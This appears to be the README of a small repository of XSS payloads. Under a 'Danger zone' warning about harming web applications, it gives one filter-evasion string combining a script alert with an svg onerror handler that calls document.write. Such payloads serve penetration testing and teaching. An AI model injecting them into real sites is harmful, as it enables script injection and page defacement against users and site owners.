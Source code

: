 # xss
Personally created XSS payloads

# Danger zone! <br>
- Danger zone is the area which xss payloads can be OR will be harmfull to a web application <br>
- So, do no use them unless you're sure the web app will not be damaged!

## Document.write <br>

```html
;//<!----><SCRIPT>alert(1);</SCRIPT><svg onerror="alert(document.write(1337))">
```
